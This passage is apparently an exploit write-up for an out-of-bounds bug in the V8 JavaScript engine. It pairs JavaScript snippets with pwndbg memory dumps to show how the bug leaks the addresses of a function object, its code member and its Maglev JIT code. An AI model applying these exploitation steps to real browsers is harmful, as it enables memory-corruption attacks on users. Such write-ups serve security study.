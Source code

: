 `oobObjArr[0]` is placed after the 2 doublewords of address of `elements` with first part of `elements` being `maps` and second `length`. We can see at address 0x3e80000422a0 the `oobObjArr[0]` has address of `func`. After this we can read address from `oobDblArr[(objIndex - oobDblIndex) >> 1]` as we have OOB read.

We are dividing by 2 because each element in `OobDblArr` is 8 bytes as opposed to 4 byte values in `corruptedArr` so each index would jump twice the memory.

```js
  var dblOffset = (oobDbl2Index - oobDblIndex - 5) >> 1;
  var codeAddr = read(funcAddr + 0x10, dblOffset)[0];
  console.log("code Addr: " + codeAddr.toString(16));
```

Next, we try to leak the address of `code` member of `func` function. We give `funcAddr + 0x10` because the address of code is present at `<add of func> + 0x18`. When we read `OobDblArr2[0]` it accesses first element at address `<addr of elements OobDblArr2> + 0x8`. So, we access value at `funcAddr + 0x18`.

```bash
pwndbg> x/50wx 0x0e72000421d1-1
0xe72000421d0:	0x0018ece5	0x00000219	0x000421e9	0x00000200
0xe72000421e0:	0x0000117d	0x00207cc5	0x00000901	0x0000000a
0xe72000421f0:	0x00000000	0x00000082	0x00000000	0x40508000
0xe7200042200:	0x00000000	0x40544000	0x00000000	0x40548000
0xe7200042210:	0x00000000	0x3ff80000	0x00000901	0x00000006
0xe7200042220:	0x00000000	0x40504000	0x00000000	0x40508000
0xe7200042230:	0x00000000	0x3ff80000	0x0018ece5	0x00000219
0xe7200042240:	(0x0019bfe5	0x00000002)	0x0000117d	0x00207cf1
0xe7200042250:	0x00000901	0x00000006	0x00000000	0x40504000
0xe7200042260:	0x00000000	0x40508000	0x00000000	0x3ff80000
...
```

We can see at address 0xe7200042240 the address of `func` has been placed. This address is the address of `elements` of `OobDblArr2`.

```bash
pwndbg> x/50wx 0x344b0019bfd5-1
0x344b0019bfd4:	0x00184359	0x00000219	0x00000219	0x0019b2e5
0x344b0019bfe4:	0x0019be51	0x0019bde5	(0x001a0921)	0x0000026d
0x344b0019bff4:	0x00000ac1	0x0019ae2d	0x0000b8a0	0x0019bfd5
0x344b0019c004:	0x00000229	0x00000ac1	0x00002bb9	0x0000baa0
0x344b0019c014:	0x0018e42d	0x00207655	0x00184359	0x00000219
0x344b0019c024:	0x00000219	0x0019b319	0x0019be51	0x0019bdf1
```

We can see that at `funcAddr + 0x18` there is code address.

```js
  var maglevAddr = read(codeAddr + 0x8, dblOffset);
  console.log("maglev Addr: " + maglevAddr[0].toString(16) + " " + maglevAddr[1].toString(16));
```

Next, we try to leak the address of JIT compiled code of `code`. We give `codeAddr + 0x8` because the address of this code is present at `<add of code> + 0x10`. When we read `OobDblArr2[0]` it accesses first element at address `<addr of elements OobDblArr2> + 0x8`. So, we access value at `codeAddr + 0x10`.
